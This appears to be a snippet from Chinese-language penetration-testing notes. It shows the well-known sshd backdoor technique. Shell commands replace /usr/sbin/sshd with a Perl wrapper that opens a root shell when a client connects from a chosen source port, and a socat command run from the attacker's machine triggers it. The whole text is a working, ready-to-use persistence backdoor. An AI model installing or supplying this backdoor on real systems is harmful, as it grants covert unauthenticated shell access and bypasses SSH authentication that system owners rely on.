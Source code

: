 	>cd /usr/sbin
	>mv sshd ../bin
	>echo '#!/usr/bin/perl' >sshd
	>echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
	>echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
	>chmod u+x sshd
	>/etc/init.d/sshd restart
	攻击机执行
	>socat STDIO TCP4:192.168.0.110:22,sourceport=13377
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/572.png)